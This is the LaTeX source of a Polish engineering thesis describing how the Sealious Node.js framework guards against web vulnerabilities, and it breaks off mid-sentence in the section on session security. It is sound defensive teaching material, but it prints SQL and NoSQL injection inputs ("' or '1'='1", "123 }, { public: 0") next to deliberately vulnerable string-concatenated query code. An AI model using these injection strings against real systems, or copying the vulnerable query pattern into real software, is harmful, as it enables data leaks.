\documentclass[12pt,polish,a4paper,]{report}
\usepackage{lmodern}
\usepackage{amssymb,amsmath}
\usepackage{ifxetex,ifluatex}
\usepackage{fixltx2e} % provides \textsubscript
\ifnum 0\ifxetex 1\fi\ifluatex 1\fi=0 % if pdftex
  \usepackage[T1]{fontenc}
  \usepackage[utf8]{inputenc}
\else % if luatex or xelatex
  \ifxetex
    \usepackage{mathspec}
  \else
    \usepackage{fontspec}
  \fi
  \defaultfontfeatures{Ligatures=TeX,Scale=MatchLowercase}
  \newcommand{\euro}{€}
\fi
% use upquote if available, for straight quotes in verbatim environments
\IfFileExists{upquote.sty}{\usepackage{upquote}}{}
% use microtype if available
\IfFileExists{microtype.sty}{%
\usepackage{microtype}
\UseMicrotypeSet[protrusion]{basicmath} % disable protrusion for tt fonts
}{}
\usepackage[inner=3cm, outer=2cm, top=2.5cm, bottom=2.5cm]{geometry}
\usepackage{hyperref}
\PassOptionsToPackage{usenames,dvipsnames}{color} % color is loaded by hyperref
\hypersetup{unicode=true,
            pdfborder={0 0 0},
            breaklinks=true}
\urlstyle{same}  % don't use monospace font for urls
\ifnum 0\ifxetex 1\fi\ifluatex 1\fi=0 % if pdftex
  \usepackage[shorthands=off,main=polish]{babel}
\else
  \usepackage{polyglossia}
  \setmainlanguage[]{polish}
\fi
\usepackage{color}
\usepackage{fancyvrb}
\newcommand{\VerbBar}{|}
\newcommand{\VERB}{\Verb[commandchars=\\\{\}]}
\DefineVerbatimEnvironment{Highlighting}{Verbatim}{commandchars=\\\{\}}
% Add ',fontsize=\small' for more characters per line
\newenvironment{Shaded}{}{}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.00,0.44,0.13}{\textbf{{#1}}}}
\newcommand{\DataTypeTok}[1]{\textcolor[rgb]{0.56,0.13,0.00}{{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.25,0.63,0.44}{{#1}}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.25,0.63,0.44}{{#1}}}
\newcommand{\FloatTok}[1]{\textcolor[rgb]{0.25,0.63,0.44}{{#1}}}
\newcommand{\ConstantTok}[1]{\textcolor[rgb]{0.53,0.00,0.00}{{#1}}}
\newcommand{\CharTok}[1]{\textcolor[rgb]{0.25,0.44,0.63}{{#1}}}
\newcommand{\SpecialCharTok}[1]{\textcolor[rgb]{0.25,0.44,0.63}{{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.25,0.44,0.63}{{#1}}}
\newcommand{\VerbatimStringTok}[1]{\textcolor[rgb]{0.25,0.44,0.63}{{#1}}}
\newcommand{\SpecialStringTok}[1]{\textcolor[rgb]{0.73,0.40,0.53}{{#1}}}
\newcommand{\ImportTok}[1]{{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.38,0.63,0.69}{\textit{{#1}}}}
\newcommand{\DocumentationTok}[1]{\textcolor[rgb]{0.73,0.13,0.13}{\textit{{#1}}}}
\newcommand{\AnnotationTok}[1]{\textcolor[rgb]{0.38,0.63,0.69}{\textbf{\textit{{#1}}}}}
\newcommand{\CommentVarTok}[1]{\textcolor[rgb]{0.38,0.63,0.69}{\textbf{\textit{{#1}}}}}
\newcommand{\OtherTok}[1]{\textcolor[rgb]{0.00,0.44,0.13}{{#1}}}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.02,0.16,0.49}{{#1}}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.10,0.09,0.49}{{#1}}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.00,0.44,0.13}{\textbf{{#1}}}}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.40,0.40,0.40}{{#1}}}
\newcommand{\BuiltInTok}[1]{{#1}}
\newcommand{\ExtensionTok}[1]{{#1}}
\newcommand{\PreprocessorTok}[1]{\textcolor[rgb]{0.74,0.48,0.00}{{#1}}}
\newcommand{\AttributeTok}[1]{\textcolor[rgb]{0.49,0.56,0.16}{{#1}}}
\newcommand{\RegionMarkerTok}[1]{{#1}}
\newcommand{\InformationTok}[1]{\textcolor[rgb]{0.38,0.63,0.69}{\textbf{\textit{{#1}}}}}
\newcommand{\WarningTok}[1]{\textcolor[rgb]{0.38,0.63,0.69}{\textbf{\textit{{#1}}}}}
\newcommand{\AlertTok}[1]{\textcolor[rgb]{1.00,0.00,0.00}{\textbf{{#1}}}}
\newcommand{\ErrorTok}[1]{\textcolor[rgb]{1.00,0.00,0.00}{\textbf{{#1}}}}
\newcommand{\NormalTok}[1]{{#1}}
\usepackage{graphicx,grffile}
\makeatletter
\def\maxwidth{\ifdim\Gin@nat@width>\linewidth\linewidth\else\Gin@nat@width\fi}
\def\maxheight{\ifdim\Gin@nat@height>\textheight\textheight\else\Gin@nat@height\fi}
\makeatother
% Scale images if necessary, so that they will not overflow the page
% margins by default, and it is still possible to overwrite the defaults
% using explicit options in \includegraphics[width, height, ...]{}
\setkeys{Gin}{width=\maxwidth,height=\maxheight,keepaspectratio}
\setlength{\parindent}{0pt}
\setlength{\parskip}{6pt plus 2pt minus 1pt}
\setlength{\emergencystretch}{3em}  % prevent overfull lines
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\setcounter{secnumdepth}{0}

\title{Rozwój open-source’owego frameworka do tworzenia aplikacji - "Sealious" (cz. 2)}
\date{}
% \renewcommand{\baselinestretch}{1.5} 
\usepackage{setspace}
\onehalfspacing

% Redefines (sub)paragraphs to behave more like sections
\ifx\paragraph\undefined\else
\let\oldparagraph\paragraph
\renewcommand{\paragraph}[1]{\oldparagraph{#1}\mbox{}}
\fi
\ifx\subparagraph\undefined\else
\let\oldsubparagraph\subparagraph
\renewcommand{\subparagraph}[1]{\oldsubparagraph{#1}\mbox{}}
\fi

\begin{document}
\maketitle

\thispagestyle{empty}
\begin{figure}[h!]
\centering

\includegraphics[width=0.25\hsize]{uam_logo.jpg}
\end{figure}

\begin{center}
\Large Uniwersytet im. A. Mickiewicza w Poznaniu \\
\large Wydział Matematyki i Informatyki \\
\normalsize kierunek: Informatyka
\end{center}

 \vskip0.5in
 \begin{center}
    \large\expandafter{Praca dyplomowa}
 \end{center}
 \vskip0.3in
 \begin{center}
    \hyphenpenalty=10000\huge{\textbf{\title{}}}\\
 \end{center}
 \vskip0.3in
 \begin{center}
    \Large\expandafter{Imię Nazwisko}
 \end{center}
 \vskip1.5in
 \begin{flushright}
    \begin{tabular}{c}
    Promotor: \\
    dr Imię Nazwisko \\
    \end{tabular}
 \end{flushright}

 \vfill

 \begin{center}
     \rm Poznań, 20xx
 \end{center}
 \newpage

{
\setcounter{tocdepth}{1}
\tableofcontents
}
\chapter*{Opis całości projektu}\label{opis-caux142oux15bci-projektu}
\addcontentsline{toc}{chapter}{Opis całości projektu}

Sealious (wym. \emph{/si:liəs/}) jest \emph{deklaratym},
\emph{modułowym} frameworkiem do tworzenia aplikacji webowych i
desktopowych przy użyciu języka JavaScript w środowisku Node.js. Jest
opublikowany jako projekt Open Source, na licencji \emph{BSD 2-Clause}.

Sealious służy do tworzenia ``backendu'' aplikacji---nie jest narzędziem
do projektowania interfejsów graficznych. Udostępnia interfejs
\emph{programistyczny} przyjazny deweloperom odpowiedzialnym za
``frontend'' aplikacji.

\subsection{Deklaratywność}\label{deklaratywnoux15bux107}

``Deklaratywność'' oznacza, że deweloper tworzący aplikację przy użyciu
Sealiousa musi tylko opisać \emph{co} ma owa aplikacja robić, a nie
\emph{jak}. Deklaratywny opis aplikacji sealiousowej\footnote{dla
  zwięzłości będziemy używać sformułowania ``aplikacja sealiousowa'',
  mając na myśli ``aplikacja napisana przy użyciu frameworka Sealious''}
jest czytelny i jednoznaczny dla człowieka i dla maszyny.

Jak zobaczymy w następnych rozdziałach, deklaratywność Sealiousa
umożliwia tworzenie w pełni funkcjonalnych aplikacji zawartych w bardzo
małej ilości kodu.

\subsection{Modułowość}\label{moduux142owoux15bux107}

``Modułowość'' oznacza, że aplikację sealiousową można łatwo rozszerzać
za pomocą tzw. ``pluginów''. Pluginy sealiousowe są wielokrotnego
użytku---co oznacza, że raz napisany plugin będzie się zachowywał
prawidłowo w każdej aplikacji sealiousowej\footnote{przykładem jest
  plugin ``REST''. Wystarczy doinstalować go do dowolnej aplikacji
  Sealiousowej, aby uzyskać w pełni funckjonalne REST API dla tej
  aplikacji - bez potrzeby żadnej dodatkowej konfiguracji.}. Pluginy
mogą (ale nie muszą) zawierać imperatywny (\emph{nie}deklaratywny) kod.

\subsection{Rozwój frameworka}\label{rozwuxf3j-frameworka}

Celem naszego projektu był rozwój Sealiousa. W trakcie prac nad nim:

\begin{itemize}
\tightlist
\item
  zidentyfikowaliśmy i naprawiliśmy 50 problemów z kodem (brakujące
  funkcjonalności, bugi, niespójności w dokumentacji)
\item
  zwiększyliśmy objętość kodu o ok. 30\%\footnote{Może się wydawać, że
    30\% to nie jest dużo, ale jesteśmy dumni z faktu, że uzyskaliśmy
    tak duży postęp bez drastycznego zwiększania objętości kodu. Bardzo
    często okazywało się, że po naprawieniu buga albo dodaniu nowej
    funkcjonalności do Sealiousa kodu w repozytorium ubywało, ponieważ
    przepisaliśmy kod tak, aby rozwiązywał bardziej ogólny
    problem---który często bywa prostszy niż kilka konkretnych.}
\item
  dokończyliśmy prace nad wersją \texttt{0.6} (została ona doprowadzona
  do stanu \texttt{stable}) oraz równolegle rozwijaliśmy nową wersję,
  \texttt{0.7} (aktualnie w stanie \texttt{alpha}), bogatą w nowe
  funkcje i rozwiązania.
\end{itemize}

\subsection{Przykład wdrożenia}\label{przykux142ad-wdroux17cenia}

Przez ostatnie pół roku rozwój Sealiousa był mocno kierowany potrzebami
projektu Placetag---również realizowanego jako (osobny) projekt
inżynierski na WMI UAM\footnote{Tytuł projektu: ``Placetag - aplikacja
  wspierająca organizację i katalogowanie miejsc''. Opiekun: dr Jacek
  Marciniak}.

Placetag to serwis internetowy stworzony za pomocą Sealiousa,
pozwalający na zapisywanie miejsc na mapie oraz na łatwe wysyłanie
odnośników do nich za pomocą sieci społecznościowych.

Zapisane w nim miejsca można dzielić na kategorie, nadawać im
``hashtagi'' i wzbogacać ich opisy o zdjęcia (które po stronie serwera
są skalowane i kompresowane w celu optymalizacji zużycia pasma).

Serwis ten posiada dwie aplikacje klienckie---interfejs webowy oraz
aplikację na platformę Android.

Dzięki zastosowaniu Sealiousa kod backendu tego serwisu ma małą objętość
- zawiera się w około 200 linijkach.

\begin{figure}[htbp]
\centering

\includegraphics{./media/placetag.png}
\caption{Dwa interfejsy aplikacji Placetag - webowy i na platformę
Android. Obydwa komunikują się z interfejsem programistycznym tworzonym
przez Sealiousa.}
\end{figure}

Projekt Placetag zakończył się sukcesem - w Internecie jest już dostępna
jego publiczna, ``produkcyjna'' wersja\footnote{Publiczna wersja
  dostępna pod adresem http://placetag.pl}.

\chapter*{Cel i zakres pracy}\label{cel-i-zakres-pracy}
\addcontentsline{toc}{chapter}{Cel i zakres pracy}

W dzisiejszych czasach praktycznie co tydzień słyszy się w wiadomościach
o wielkich wyciekach danych z mniej lub bardziej popularnych serwisów
internetowych---dziury w bezpieczeństwie dostępu do danych odnajdywane
są nawet w dużych serwisach, nad którymi pracują tysiące inżynierów i
programistów.

Zdarza się, że aplikacje o bardzo dobrze zabezpieczonej strukturze IT są
podatne na wyciek danych przez błąd programistyczny. W dobie systemów
ciągłej integracji, wiecznie rosnącego poziomu skomplikowania aplikacji
internetowych i średniego rozmiaru zespołów programistycznych nad nimi
pracujących wzrasta prawdopodobieństwo przypadkowego spowodowania
wycieku danych.

Wyłaniają się dwie główne kategorie źródeł podatności aplikacji
internetowej na wyciek danych:

\begin{itemize}
\tightlist
\item
  \textbf{wadliwe zabezpieczenia struktury IT}---wykorzystywanie dziur w
  firewallach serwera, łamanie haseł do serwera głównego i inne techniki
  mogą dać włamywaczowi nieograniczony, bezpośredni dostęp do bazy
  danych.
\item
  \textbf{błąd w kodzie aplikacji internetowej}---przez nieuwagę
  programisty tworzącego daną aplikację zdarza się, że udostępnia
  użytkownikom dane, do których nie powinni mieć dostępu.
\end{itemize}

W niniejszej pracy skupię się na drugiej kategorii: błędach
programistów, które skutkują osłabieniem ochrony danych
użytkowników---ponieważ są to problemy, którym framework programistyczny
(w tym przypadku Sealious) jest w stanie zapobiec. Omówię sposoby, w
jakie Sealious tym problemom przeciwdziała lub będzie przeciwdziałał w
przyszłych wersjach\footnote{Należy mieć na uwadze, że Sealious jest
  frameworkiem do tworzenia nie tylko aplikacji internetowych---może być
  użyty również jako baza aplikacji \emph{desktopowych}. Biorąc pod
  uwagę popularność aplikacji webowych w dzisiejszych czasach, opowiem
  głównie o problemach z bezpieczeństwem w Sieci.}.

\chapter*{Nomenklatura frameworka
Sealious}\label{nomenklatura-frameworka-sealious}
\addcontentsline{toc}{chapter}{Nomenklatura frameworka Sealious}

Struktura Sealiousa nie była bezpośrednio inspirowana żadnym dotychczas
istniejącym frameworkiem, przez co nazwy niektórych struktur w nim się
znajdujących posiadają oryginalne, określone przez nas nazwy. Ich
znaczenia i wzajemne relacje są dokładniej wytłumaczone w pracy
opisującej część pierwszą naszego tematu\footnote{Praca inżynierska Poli
  Mikołajczak, pt. \emph{Rozwój open-source'owego frameworka do
  tworzenia aplikacji - ''Sealious'' (cz. 1)}. Realizowana na WMI UAM
  pod opieką prof. Marka Nawrockiego}, ale dla wygody Czytelnika po
krótce opiszę najważniejsze z nich:

\begin{itemize}
\tightlist
\item
  \emph{chip} - zbiór funkcjonalności realizujący określone zadanie w
  aplikacji tworzonej za pomocą Sealiousa.
\item
  \emph{deklaratywny opis aplikacji} - zbiór deklaracji funkcjonalności
  aplikacji napisany wg. określonych schematów. Nie zawiera
  \emph{imperatywnych} instrukcji---tylko informacje o tym, \emph{co}
  aplikacja ma robić, ale nie \emph{jak}.
\item
  \emph{aplikacja sealiousowa} - aplikacja tworzona za pomocą Sealiousa.
  Jej funkcjonalność jest jednoznacznie zdefiniowana jest przez jej
  deklaratywny opis oraz zbiór chipów.
\item
  \emph{resource (zasób)} - rekord w bazie danych. Ma określoną
  strukturę i prawa dostępu.
\item
  \emph{context (kontekst)} - obiekt. Zawiera informacje nt. kontekstu,
  w jakim zostało wykonane zapytanie do aplikacji sealiousowej (id
  użytkownika, timestamp, adres IP klienta).
\item
  \emph{chip type (typ chipu)} - zbiór wymagań odnośnie funkcjonowania i
  przeznaczenia chipu. W wersji \texttt{0.6} Sealiousa zdefiniowane są
  następujące typy:

  \begin{itemize}
  \tightlist
  \item
    \emph{channel (kanał)} - umożliwia komunikację z aplikacją
    sealiousową za pomocą jakiegoś protokołu
  \item
    \emph{resource type (typ zasobu)} - opis struktury zasobu
  \item
    \emph{field type (typ pola zasobu)} - opis pola struktury zasobu.
    Zawiera informacje o walidacji i sposobie przechowywania wartości w
    bazie danych.
  \item
    \emph{access strategy (strategia dostępu)} - opis logiki
    przydzielania dostępu na podstawie zadanego kontekstu
  \end{itemize}
\end{itemize}

\chapter{\texorpdfstring{\emph{Injection}}{Injection}}\label{injection}

\emph{Injection} (ang. ``wstrzyknięcie'') to rodzaj ataku pozwalający
atakującemu na wywołanie dowolnej kwerendy SQL (lub noSQL) na serwerze.
Napisana przez atakującego kwerenda może usuwać ważne dane z bazy lub
nadawać większe uprawnienia pewnym użytkownikom, co może doprowadzić do
wycieku danych.

Podatność na \emph{injection} występuje bardzo często---zajmuje pozycję
\#1 na liście najpopularniejszych podatności aplikacji webowych (zob.
\emph{OWASP top 10 - 2013}, Wichers, 2013, p.~7)

\section{\texorpdfstring{Przykłady ataku typu \emph{injection} w dużych
aplikacjach}{Przykłady ataku typu injection w dużych aplikacjach}}\label{przykux142ady-ataku-typu-injection-w-duux17cych-aplikacjach}

Mimo że o podatności na ataki typu \emph{injection} traktuje bardzo
wiele kursów o bezpieczeństwie aplikacji internetowych, to wciąż
notorycznie słyszy się o poważnych w skutkach atakach osiągniętych przez
wykorzystywanie właśnie tej dziury w zabezpieczeniach:

\begin{itemize}
\tightlist
\item
  słynny atak LulzSec na sieć PlayStation Network---w wyniku którego
  atakujący zyskali pełen dostęp do bazy danych i kodu źródłowego
  serwisu (\emph{LulzSec Hacker Arrested, Group Leaks Sony Database},
  Ridge, 2011)
\item
  w 2009 roku pewien Amerykanin wykradł dane kart kredytowych 130
  milionów obywateli za pomocą \emph{SQL injection} (\emph{US man „stole
  130m card numbers''}, BBC News, 2009)
\end{itemize}

\section{Przebieg ataku}\label{przebieg-ataku}

Podstawą ataku typu \emph{injection} jest umiejętne sformułowanie
niewinnie wyglądającego zapytania na serwer (np. zapytanie
\texttt{HTTP\ POST} odpowiedzialne za logowanie lub zakładanie
użytkownika) tak, aby zostały wykonane dodatkowe kwerendy, napisane
przez atakującego.

\subsection{Przykład---SQL}\label{przykux142adsql}

Rozważmy kolejne kroki ataku na przykładzie prostego systemu logowania.
W celu autoryzacji loginu i hasła użytkownika serwer musi wykonać
zapytanie do bazy danych. Załóżmy, że zapytanie SQL jest formułowane w
następujący sposób:

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{String query = }\StringTok{"SELECT * FROM accounts WHERE username='"}
     \NormalTok{+ request.}\FunctionTok{getParameter}\NormalTok{(}\StringTok{"username"}\NormalTok{) + }\StringTok{"'"}\NormalTok{;}
\end{Highlighting}
\end{Shaded}

Zakładając, że w formularzu HTML została wpisana nazwa użytkownika
(zgodnie z przewidywaniami programisty), zapytanie przechowywane w
zmiennej \texttt{query} ma postać:

\begin{Shaded}
\begin{Highlighting}[]
    \KeywordTok{SELECT} \NormalTok{* }\KeywordTok{FROM} \NormalTok{accounts }\KeywordTok{WHERE} \NormalTok{username=}\StringTok{'kuba'}
\end{Highlighting}
\end{Shaded}

Wynikiem takiego zapytania jest jeden wiersz bazy danych, reprezentujący
użytkownika \texttt{kuba}.

Złośliwy atakujący może w formularzu HTML w polu \texttt{username}
wpisać:

\begin{verbatim}
    ' or '1'='1
\end{verbatim}

co sprawi, że w zmiennej \texttt{query} przechowywane będzie zapytanie w
postaci:

\begin{Shaded}
\begin{Highlighting}[]
    \KeywordTok{SELECT} \NormalTok{* }\KeywordTok{FROM} \NormalTok{accounts }\KeywordTok{WHERE} \NormalTok{username=}\StringTok{''} \KeywordTok{or} \StringTok{'1'}\NormalTok{=}\StringTok{'1'}
\end{Highlighting}
\end{Shaded}

Takie zapytanie zamiast zwracać dane jednego użytkownika, zwraca całą
zawartość tabeli \texttt{accounts}---co może doprowadzić do
niepożądanego wycieku danych.

\subsection{Przykład---NoSQL}\label{przykux142adnosql}

Mimo że języki NoSQL projektowane były z myślą o zapobieganiu atakom
typu \emph{injection} (\emph{MongoDB FAQ: How does MongoDB address SQL
or Query injection?}, MongoDB, 2014), nieuważny programista NoSQL wciąż
może sprawić, że jego aplikacja jest na nie podatna (zob.
\emph{NOSQL-injection}, Oftedal, 2010).

Rozpatrzmy prosty przykład aplikacji, która umożliwia publikowanie oraz
przeglądanie postów. W tej aplikacji użytkownik \emph{powinien} mieć
dostęp tylko do:

\begin{itemize}
\tightlist
\item
  postów jego autorstwa
\item
  postów oznaczonych jako publiczne
\item
  postów napisanych przez jego znajomych
\end{itemize}

Załóżmy, że kod obsługujący zapytanie o listę dostępnych postów zawiera
następujący fragment:

\begin{Shaded}
\begin{Highlighting}[]
\ControlFlowTok{if} \NormalTok{(}\AttributeTok{is_friends_with}\NormalTok{(}\VariableTok{request}\NormalTok{.}\VariableTok{params}\NormalTok{.}\AttributeTok{user_id}\OperatorTok{,} \VariableTok{Session}\NormalTok{.}\AttributeTok{user_id}\NormalTok{) ) }\OperatorTok{\{}
    \KeywordTok{var} \NormalTok{db_query }\OperatorTok{=} \StringTok{"\{ $or : [ \{ public : 1 \} , \{ owner_id : "} \OperatorTok{+} 
        \VariableTok{request}\NormalTok{.}\VariableTok{params}\NormalTok{.}\AttributeTok{user_id} \OperatorTok{+} \StringTok{" \} ] \}"}\OperatorTok{;}
    \VariableTok{db}\NormalTok{.}\VariableTok{posts}\NormalTok{.}\AttributeTok{find}\NormalTok{(}\VariableTok{JSON}\NormalTok{.}\AttributeTok{parse}\NormalTok{(db_query))}\OperatorTok{;}
\OperatorTok{\}} \ControlFlowTok{else} \OperatorTok{\{}
    \CommentTok{//respond with error}
\OperatorTok{\}}
\end{Highlighting}
\end{Shaded}

Jeżeli parametr \texttt{user\_id} zapytania HTTP obsługiwanego przez ten
fragment kodu ma postać zgodną z przewidywaniami programisty (liczbę
całkowitą---typ \texttt{Number} w JavaScript), zapytanie przechowywane w
zmiennej \texttt{db\_query} ma postać:

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{\{} \DataTypeTok{"$or"}\FunctionTok{:} \OtherTok{[}
        \FunctionTok{\{} \DataTypeTok{"public"}\FunctionTok{:} \DecValTok{1} \FunctionTok{\}}\OtherTok{,}
        \FunctionTok{\{} \DataTypeTok{"author_id"}\FunctionTok{:} \DecValTok{123} \FunctionTok{\}}
    \OtherTok{]}
\FunctionTok{\}}
\end{Highlighting}
\end{Shaded}

Takie zapytanie zwróci listę postów z bazy danych---tylko takich, które
są publiczne, lub których autorem jest zadany użytkownik

Jeżeli złośliwy atakujący podałby jako wartość parametru
\texttt{owner\_id} ciąg znaków:

\begin{verbatim}
123 }, { public: 0
\end{verbatim}

to zapytanie przechowywane w zmiennej \texttt{db\_query} ma postać:

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{\{} \DataTypeTok{"$or"}\FunctionTok{:} \OtherTok{[}
        \FunctionTok{\{} \DataTypeTok{"public"}\FunctionTok{:} \DecValTok{1} \FunctionTok{\}}\OtherTok{,}
        \FunctionTok{\{} \DataTypeTok{"owner_id"}\FunctionTok{:} \DecValTok{123} \FunctionTok{\}}\OtherTok{,}
        \FunctionTok{\{} \DataTypeTok{"public"}\FunctionTok{:} \DecValTok{0}\FunctionTok{\}}
    \OtherTok{]}
\FunctionTok{\}}
\end{Highlighting}
\end{Shaded}

Takie zapytanie zwraca listę \emph{wszystkich} postów z bazy---nastąpił
wyciek danych.

\section{Zapobieganie}\label{zapobieganie}

Podatność na ataki typu \emph{injection} jest łatwo wykryć w trakcie
czytania kodu---dlatego warto dbać o to, aby każda linijka kodu
odpowiedzialna za komunikację z bazą danych w aplikacji internetowej
była przejrzana i zaakceptowana przez innego członka zespołu, niż jej
autor.

W przypadku SQL---warto korzystać z poleceń przygotowywanych (ang.
\emph{prepared statements}). Polecenia przygotowane są odporne na atak
typu \emph{injection}, ponieważ wymagają odseparowania struktury kwerend
od danych, co uniemożliwia interpretację danych wpisanych przez
użytkownika jako osobnych kwerend.

W przypadku noSQL w dużej mierze wystarczy pilnować, aby kwerenda zawsze
była przechowywana w postaci hashmapy, a nie ciągu znaków---bo
konkatenacja ciągów znaków umożliwia \emph{injection}.

\section{\texorpdfstring{Jak Sealious zapobiega atakom typu
\emph{injection}}{Jak Sealious zapobiega atakom typu injection}}\label{jak-sealious-zapobiega-atakom-typu-injection}

Sealious reprezentuje wszystkie zapytania do bazy danych w postaci
natywnego dla JavaScript obiektu (hashmapy), zgodnych ze specyfikacją
interfejsu programistycznego MongoDB. Każde zapytanie MongoDB jest
hashmapą---dlatego np. dla pól typu ``\texttt{text}'' każda wysłana
przez użytkownika \emph{wartość pola} jest wcześniej rzutowana na
\texttt{String}. Takie podejście uniemożliwia zajście sytuacji opisanej
powyżej. Takie rzutowanie na typ \texttt{String} możemy zaobserwować w
poniższym fragmencie kodu\footnote{kod pochodzi z pliku
  \texttt{lib/base-chips/field\_type.text.js}, w kodzie źródłowym
  Sealiousa z wersji \texttt{0.6.21}}:

\begin{Shaded}
\begin{Highlighting}[]
\ControlFlowTok{if} \NormalTok{(value_in_code }\KeywordTok{instanceof} \NormalTok{Object) }\OperatorTok{\{}
    \ControlFlowTok{return} \VariableTok{JSON}\NormalTok{.}\AttributeTok{stringify}\NormalTok{(value_in_code)}\OperatorTok{;}
\OperatorTok{\}} \ControlFlowTok{else} \ControlFlowTok{if} \NormalTok{(value_in_code }\OperatorTok{===} \KeywordTok{null}\NormalTok{) }\OperatorTok{\{}
    \ControlFlowTok{return} \KeywordTok{null}
\OperatorTok{\}} \ControlFlowTok{else} \OperatorTok{\{}
    \ControlFlowTok{return} \VariableTok{value_in_code}\NormalTok{.}\AttributeTok{toString}\NormalTok{()}\OperatorTok{;}
\OperatorTok{\}}
\end{Highlighting}
\end{Shaded}

Dodatkowo, Sealious jest napisany w taki sposób, że docelowy deweloper
tworzący aplikację przy jego użyciu nie musi własnoręcznie formułować
kwerend do bazy danych\footnote{Sealious automatycznie buduje bogate w
  funkcjonalności API dla aplikacji klienckich, co znosi z barków
  dewelopera odpowiedzialność za pisanie kwerend do bazy danych}---co
eliminuje ryzyko przypadkowego uczynienia tej aplikacji podatną na noSQL
injection.

\chapter{Błędy w uwierzytelnianiu i zarządzaniu
sesją}\label{bux142ux119dy-w-uwierzytelnianiu-i-zarzux105dzaniu-sesjux105}

W trakcie tworzenia aplikacji deweloperzy często ulegają pokusie
stworzenia własnego procesu uwierzytelnianiu użytkownika. Nie jest to
łatwe zadanie, dlatego potencjalnie taka aplikacja jest podatna na
ataki, w których złośliwy agent podszywa się pod uprzywilejowanego
użytkownika.

\section{Przykłady błędów w procesie uwierzytelniania w dużych
aplikacjach}\label{przykux142ady-bux142ux119duxf3w-w-procesie-uwierzytelniania-w-duux17cych-aplikacjach}

Prawidłowe zaimplementowanie mechanizmu uwierzytelniania może sprawiać
problem nawet dużym firmom, takim jak:

\begin{itemize}
\tightlist
\item
  \textbf{LinkedIn} (\emph{LinkedIn settles class action suit over 2012
  unsalted password leak}, Vaas, 2015)
\item
  \textbf{Yahoo} (\emph{Yahoo's password leak: What you need to know},
  Hamilton, 2012)
\end{itemize}

\section{Przebieg ataku}\label{przebieg-ataku-1}

\subsection{Ujawnienie id sesji}\label{ujawnienie-id-sesji}

Należy pamiętać, że id sesji jednoznacznie identyfikuje użytkownika i
trzeba dbać o to, aby nie zostało ono ujawnione. Rozpatrzmy przebieg
ataku na przykładzie hipotetycznej sieci społecznościowej.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Użytkownik A loguje się do interfejsu webowego pewnej sieci
  społecznościowej.
\item
  Użytkownik A znalazł opublikowane przez kogoś na tym serwisie bardzo
  śmieszne zdjęcie kota.
\item
  Widoczny w pasku adresu przeglądarki URL zawiera identyfikator sesji
  użytkownika:

  http://example.com/pics/3543?\textbf{jsessionid=ef3d9c3d00}
\item
  Użytkownik A zechciał podzielić się radością płynącą z tego zdjęcia ze
  swoim znajomym, użytkownikiem B, więc skopiował URL z paska adresu i
  wkleił go do treści wiadomości e-mail, po czym wysłał ją.
\item
  Użytkownik B wiadomości otwiera zawarty w tej wiadomości link.
\item
  Serwer odbiera zapytanie wywołane przez otwarcie przez użytkownika B
  tego linku, wczytuje id sesji z URL i rozpoznaje w nim użytkownika A.
\item
  Użytkownik B jest zalogowany do sieci społecznościowej jako użytkownik
  A.
\end{enumerate}

\subsection{Wyciek haseł}\label{wyciek-haseux142}

Osoba mająca fizyczny dostęp do bazy danych danej aplikacji (lub zdalny
dostęp, za pomocą ataku typu \emph{injection}) może wczytać zawartość
tabeli przechowującej dane logowania użytkowników.

Jeżeli hasła te są przechowywane w postaci jawnego tekstu, atakujący
może od razu użyć ich, aby zalogować się jako dowolny użytkownik z
pozyskanej tabeli.

\section{Zapobieganie}\label{zapobieganie-1}

\subsection{Zapobieganie ujawnieniu id
sesji}\label{zapobieganie-ujawnieniu-id-sesji}

ID sesji powinno być traktowane jako sekret. Podjęcie następujących
kroków zdecydowanie utrudnia atakującemu jego przechwycenie:

\begin{itemize}
\item
  \textbf{wymuszenie korzystania z protokołu \texttt{HTTPS} do
  wszystkich zapytań związanych z obsługą sesji}

  Dane wysyłane za pośrednictwem protokołu \texttt{HTTPS} są szyfrowane,
  co utrudnia (ale nie uniemożliwia\footnote{Odpowiednio zainfekowane
    maszyny są w stanie umożliwić ataki typu Man-In-The-Middle nawet dla
    połączeń HTTPS (zob. \emph{Superfish Adware: Uh Oh, Lenovo}, SSL
    Support Team, 2015)}) ich przechwycenie.
\end{itemize}

\begin{itemize}
\item
  \textbf{przechowywanie identyfikatora sesji w pliku cookie zamiast w
  URL}

  Jest to bardzo skuteczny sposób zabezpieczenia użytkownika przed
  przypadkowym samodzielnym zdradzeniem komuś swojego identyfikatora
  sesji. Raz zapisana w pliku cookie wartość jest automatycznie
  dołączana przez przeglądarkę internetową do każdego zapytania
  kierowanego do danej aplikacji, co zwalnia też programistę z obowiązku
